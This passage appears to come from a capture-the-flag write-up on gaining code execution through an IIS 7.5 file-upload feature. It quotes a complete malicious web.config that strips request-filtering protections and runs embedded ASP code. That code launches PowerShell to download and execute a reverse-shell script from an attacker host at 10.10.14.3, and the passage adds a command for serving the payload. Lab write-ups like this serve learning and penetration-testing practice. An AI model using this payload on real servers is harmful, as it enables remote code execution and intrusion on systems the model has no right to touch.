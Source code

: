 This is an improvement, as I know we’ve passed the upload check. But we can’t get execution still.

# Exploitation

After so many efforts, I found this [link](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) on googling “IIS 7.5 rce upload”. Here we read about the web.config file, which plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server. Uploading a .htaccess file to bypass protections around the uploaded files is a known technique.

###  **Removing protections of hidden segments**

Sometimes file uploaders rely on Hidden Segments of IIS Request Filtering such as APP_Data or App_GlobalResources directories to make the uploaded files inaccessible directly.

However, this method can be bypassed by removing the hidden segments by using the following web.config file:

```bash
python -m SimpleHTTPServer 80
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcpEx.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
-->
```
